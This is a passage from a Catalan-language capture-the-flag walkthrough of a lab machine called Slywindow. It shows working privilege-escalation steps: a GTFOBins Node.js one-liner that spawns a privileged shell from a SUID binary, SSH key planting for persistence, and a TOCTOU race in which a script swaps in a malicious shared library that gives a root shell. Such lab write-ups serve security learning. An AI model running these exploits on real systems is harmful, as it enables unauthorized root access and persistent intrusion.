(To exit, press Ctrl+C again or Ctrl+D or type .exit)
> 
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode --version
v22.17.1
```

Es tracta d'una còpia de Node.js propietat de l'usuari `tocu` amb el bit SUID habilitat. Consultant GTFOBins, identifiquem una tècnica per aprofitar aquest binari i escalar privilegis, obtenint accés com l'usuari `tocu`.

```bash
/opt/loginandvisit/tocunode -e 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})'
```

Després d'explotar el binari SUID de Node.js, aconseguim una shell com l'usuari `tocu`, el que ens permet accedir i llegir la flag ubicada a `user.txt`.


Generem una clau pública SSH (`~/.ssh/id_ed25519.pub` si no existeix) i l'afegim a l'arxiu `authorized_keys` de l'usuari `tocu` per obtenir accés interactiu i persistent mitjançant shell amb els seus privilegis.

```bash
mkdir /home/tocu/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC69nOYDcXfzkVCiMn7FaJW2O3fnFKvMzClvoa/CxOr3 kali@kali' > /home/tocu/.ssh/authorized_keys
```

i accedim per SSH sense necessitat de contrasenya, assegurant així l'accés persistent al sistema.

```bash
ssh tocu@slywindow.nyx
```



## Escalada de privilegis de tocu a root

L'usuari `tocu` pertany al grup `backupgrp`. En llistar els arxius associats a aquest grup, identifiquem el binari `/opt/backup/backup_utility`, el qual prèviament no podíem executar, però ara sí gràcies als nous privilegis. Aquest binari posseeix el bit SUID, permetent la seva execució amb privilegis de root.

Al mateix directori es troba la biblioteca `backup_plugin.so`, sobre la qual tenim permisos d'escriptura, el que obre la possibilitat de manipular el seu comportament durant l'execució del binari SUID.

```bash
tocu@slywindow:~$ ls -la  /opt/backup/
total 44
drwxrwxrwx 2 root root       4096 Jul 30 20:36 .
drwxr-xr-x 4 root root       4096 Jul 30 14:57 ..
-rw-r--r-- 1 root root      16216 Jul 12 04:19 backup_plugin.so
-rwsr-x--- 1 root backupgrp 17520 Jul 12 04:19 backup_utility
```

Si executem el binari des d'un directori diferent a `/opt/backup/`, aquest falla en no localitzar la biblioteca necessària per al seu funcionament.

```bash
tocu@slywindow:~$ /opt/backup/backup_utility
=== Advanced Backup Utility v2.1 (Secure Version) ===
Source: /var/www/html
Destination: /backups

Initializing backup system...
Performing security checks...
Verifying backup plugin integrity...
Error opening file: No such file or directory
Aborting backup due to plugin verification failure.
```

No obstant això, en executar-lo des del directori `/opt/backup/`, el binari localitza correctament la biblioteca i s'executa mostrant la sortida esperada.

```bash
tocu@slywindow:~$ cd /opt/backup
tocu@slywindow:/opt/backup$ ./backup_utility 
=== Advanced Backup Utility v2.1 (Secure Version) ===
Source: /var/www/html
Destination: /backups

Initializing backup system...
Performing security checks...
Verifying backup plugin integrity...
Plugin hash: 8b3ce16b337842c8a12f48155ec827ec
Plugin verification successful.

Preparing backup environment...
Source directory found: /var/www/html
Scanning source directory contents...
Found file: small-window.jpg
Found file: index.html
Found file: admin.php
Total files to backup: 3

Finalizing backup preparation...
Ready to start backup process...

Starting backup process...
Loading backup plugin...
Executing backup operation...
Starting backup process...
Source: /var/www/html
Destination: /backups
Backed up: /var/www/html/small-window.jpg
Backed up: /var/www/html/index.html
Backed up: /var/www/html/admin.php
Backup completed successfully

Backup operation completed successfully.
```

El programa realitza una còpia de seguretat del directori web públic `/var/www/html` a la ruta `/backups`. Per a això, empra un plugin de backup la integritat del qual verifica mostrant el hash del plugin. En calcular el hash MD5 de la biblioteca `backup_plugin.so`, comprovem que coincideix exactament amb el valor mostrat pel binari.

```bash
tocu@slywindow:/opt/backup$ md5sum backup_plugin.so
8b3ce16b337842c8a12f48155ec827ec  backup_plugin.so
```

Transferim ambdós arxius a la nostra màquina atacant executant la següent comanda:

```bash
scp tocu@10.0.2.11:/opt/backup/* .
```

Analitzem les proteccions de seguretat presents als binaris utilitzant l'eina `checksec`.

```bash
checksec --file ./backup_utility
```

```bash
checksec --file ./backup_plugin.so
```



Ambdós binaris presenten la majoria de les proteccions de seguretat activades, però no han estat "stripped". Això implica que els símbols (noms de funcions i variables) romanen al binari, el que facilita significativament la seva anàlisi i descompilació.

Per examinar els binaris sense instal·lar eines addicionals en local, recorrem al servei web https://dogbolt.org, que permet desassemblar i descompilar binaris emprant diversos descompiladors reconeguts.


A continuació es mostra la funció `main` descompilada utilitzant el descompilador `angr` a través de dogbolt.org, el que facilita l'anàlisi del flux d'execució del binari.

```c++
int main()
{
    struct stat v0[2];  // [bp-0xc8]
    unsigned int v2;  // eax
    unsigned int v3;  // eax

    puts("=== Advanced Backup Utility v2.1 (Secure Version) ===");
    __printf_chk(1, "Source: %s\n", "/var/www/html");
    __printf_chk(1, "Destination: %s\n", "/backups");
    putchar(10);
    puts("Initializing backup system...");
    puts("Performing security checks...");
    if ((int)verify_plugin_integrity("./backup_plugin.so"))
    {
        puts("\nPreparing backup environment...");
        v2 = stat("/var/www/html", &v0);
        if (!v2)
        {
            __printf_chk(1, "Source directory found: %s\n", "/var/www/html");
            puts("Scanning source directory contents...");
            v3 = scan_directory_safely("/var/www/html");
            if (v3 >= 0)
            {
                __printf_chk(1, "Total files to backup: %d\n", v3);
                if (v3)
                {
                    puts("\nFinalizing backup preparation...");
                    puts("Ready to start backup process...");
                    puts("\nStarting backup process...");
                    if ((int)perform_backup("./backup_plugin.so", "/var/www/html", "/backups"))
                    {
                        puts("\nBackup operation completed successfully.");
                        return v2;
                    }
                    puts("Backup operation failed.");
                }
                else
                {
                    puts("Warning: No files found in source directory.");
                    __printf_chk(1, "Add some files to %s before running the backup.\n", "/var/www/html");
                }
            }
            else
            {
                __printf_chk(1, "Error: Cannot access source directory: %s\n", "/var/www/html");
            }
        }
        else
        {
            __printf_chk(1, "Error: Source directory does not exist: %s\n", "/var/www/html");
            puts("Please create the source directory and add files to backup.");
        }
    }
    else
    {
        puts("Aborting backup due to plugin verification failure.");
    }
    return 1;
}
```

En executar el binari, observem diversos dels missatges que imprimeix durant el seu funcionament. Analitzant el flux, identifiquem que la funció `verify_plugin_integrity` verifica el hash MD5 de la biblioteca `./backup_plugin.so` (ubicada al mateix directori que el binari). Si el hash no coincideix, l'execució s'atura.

A continuació, la funció `scan_directory_safely` recorre tots els arxius presents a `/var/www/html`. Finalment, mitjançant `perform_backup`, el programa carrega la biblioteca i la utilitza per realitzar el backup dels arxius, el qual pot confirmar-se descompilant `backup_plugin.so`.

Al servidor, disposem de permisos per modificar `backup_plugin.so`, però el binari valida el seu hash abans de carregar-la; si l'alterem abans de la comprovació, el canvi serà detectat. Per tant, és fonamental entendre el flux exacte del programa:

1. Verifica el hash de `backup_plugin.so`; si no és vàlid, termina l'execució.
2. Escaneja els arxius a `/var/www/html`.
3. Carrega la biblioteca `backup_plugin.so` i executa el backup.

Si aconseguim modificar la biblioteca just després de la verificació del hash (pas 1) i abans que sigui carregada (pas 3), el binari no detectarà el canvi, ja que la comprovació es va realitzar prèviament. Aquest escenari és un clàssic atac TOCTOU (Time Of Check to Time Of Use): el TOC ocorre al pas 1, el TOU al pas 3, i el pas 2 representa la nostra finestra d'oportunitat per reemplaçar la biblioteca durant l'execució.

Per mesurar el temps disponible per realitzar el reemplaçament, utilitzem l'eina `inotifywait` al servidor. Obrim dos terminals amb l'usuari `tocu`; en una d'elles executem el següent script:

```bash
inotifywait -m /opt/backup/backup_plugin.so | while read action; do echo "$(date '+%H:%M:%S.%3N') - $action"; done
```

Al segon terminal llancem l'execució del binari vulnerable `backup_utility`.

```bash
cd /opt/backup/ && ./backup_utility
```



Observem que la finestra per reemplaçar la biblioteca és extremadament reduïda, de només 2 o 3 mil·lisegons. No obstant això, si incrementem la quantitat d'arxius al directori `/var/www/html`, l'escaneig es ralentitza i, en conseqüència, l'interval disponible per executar l'atac TOCTOU s'amplia.

Per simular aquest escenari, generem 9000 arxius al directori objectiu mitjançant la següent comanda:

```bash
touch /var/www/html/file{0001..9000}.txt
```

i repetim la prova per observar el comportament sota aquestes noves condicions.



Comprovem que la finestra d'oportunitat per realitzar l'atac TOCTOU s'ha incrementat de forma significativa.


Es genera un arxiu `backup_plugin.c` amb el següent codi, el propòsit del qual és obtenir una shell en ser carregat com a biblioteca compartida.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

Compilem el codi font per obtenir una biblioteca compartida maliciosa denominada `backup_plugin_bad.so`.

```bash
gcc -shared -fPIC -o backup_plugin_bad.so backup_plugin.c  
```

A continuació, transferim la biblioteca maliciosa al servidor víctima. Des de la màquina atacant, ubicats al directori on es va compilar la biblioteca, executem:

```bash
scp backup_plugin_bad.so tocu@slywindow.nyx:/opt/backup
```

De forma paral·lela, al servidor, desenvolupem un script en bash que automatitza el reemplaçament de la biblioteca legítima per la versió maliciosa a l'instant precís per maximitzar la probabilitat d'èxit de l'atac.

```bash
#!/usr/bin/env bash
# toctou.sh

DIR="/opt/backup"
ORIG="$DIR/backup_plugin.so"
BAD="$DIR/backup_plugin_bad.so"
OK="$DIR/backup_plugin_ok.so"

# Espera al PRIMER cierre (lectura o escritura) y termina
inotifywait -qq -e close_write -e close_nowrite "$ORIG"

# Renombra lo más rápido posible (dos syscalls rename(2) atómicas)
mv "$ORIG" "$OK"    # guarda la copia buena
mv "$BAD"  "$ORIG"  # coloca la versión _bad en su lugar
```

S'han d'obrir dos terminals com l'usuari tocu al servidor. A la primera, s'atorguen permisos d'execució a l'script `toctou.sh` i es procedeix a executar-lo.

```bash
chmod +x ./toctou.sh 
./toctou.sh 
```

Al segon terminal, executem el binari `./backup_utility` des del directori `/opt/backup`.

En aprofitar la condició de carrera entre la verificació (Time-Of-Check, TOC) i l'ús (Time-Of-Use, TOU) del plugin, aconseguim escalar privilegis a root al servidor mitjançant la substitució de la biblioteca legítima per la nostra versió maliciosa al moment precís.


Els atacs TOCTOU (Time-Of-Check to Time-Of-Use) poden explotar-se en diversos escenaris, especialment quan existeix la possibilitat de modificar un recurs entre el moment en què es verifica el seu estat i el moment en què és utilitzat pel sistema. En aquest repte, l'atac s'empra per eludir la comprovació d'integritat d'una biblioteca, substituint-la per una versió maliciosa just abans que el programa la carregui.

Com a resultat, aconseguim accedir i llegir la flag de root.txt.

```bash
cat /root/root.txt
```

Aquest ha estat l'anàlisi tècnica de la màquina Slywindow.
